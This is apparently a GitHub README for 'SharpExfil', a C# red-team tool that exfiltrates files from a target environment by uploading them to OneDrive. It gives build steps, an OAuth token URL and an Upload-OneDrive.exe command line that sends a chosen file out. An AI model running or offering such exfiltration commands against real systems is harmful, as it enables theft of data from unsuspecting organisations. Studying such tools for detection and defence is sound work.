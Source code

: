 # SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<application_id>&scope=<requested_scope>&redirect_uri=<redirect_uri>&response_type=token`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	<img src="./img/token.png"/>

3. Run executable with generated code token
	`Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>
	Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>`
	<img src="./img/command.png"/>
	Pass all arguments in the same order